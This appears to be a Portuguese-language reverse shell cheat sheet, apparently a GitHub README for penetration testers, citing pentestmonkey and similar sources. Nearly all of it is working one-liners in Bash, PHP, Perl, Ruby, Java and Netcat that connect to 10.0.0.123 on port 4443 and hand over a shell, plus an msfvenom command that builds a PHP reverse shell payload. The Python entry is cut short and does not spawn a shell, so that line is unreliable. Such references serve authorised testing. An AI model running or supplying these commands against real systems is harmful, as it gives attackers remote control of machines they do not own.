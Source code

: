 # Reverse Shell Cheat Sheet

Os exemplos abaixo são para sistemas Linux, mas alguns podem ser testados em sistemas Windows alterando  “/bin/sh -i” por “cmd.exe”.

## Bash

Algumas versões do bash podem executar um  reverse shell (Ex: Ubuntu 10.10):

`bash -i >& /dev/tcp/10.0.0.123/4443 0>&1`

## Python 2.7

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.123",4443))`

## PHP
Esta linha de comando utiliza “TCP connection file descriptor 3”. Caso não funcione , tente 4, 5, 6…

`php -r '$sock=fsockopen("10.0.0.123",4443);exec("/bin/sh -i <&3 >&3 2>&3");'`

## PERL

`perl -e 'use Socket;$i="10.0.0.123";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

## Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.123",4443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

## Java

`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.123/4443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()`

## Netcat

`nc 10.0.0.123 4443 -e /bin/sh`

## MSFVenom

`$ msfvenom -p php/unix/cmd/reverse_python LHOST=10.0.0.123 LPORT=4443 -f raw -o /home/kali/reverse-shell.php`

## Fonte:

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet

https://github.com/pentestmonkey/php-reverse-shell
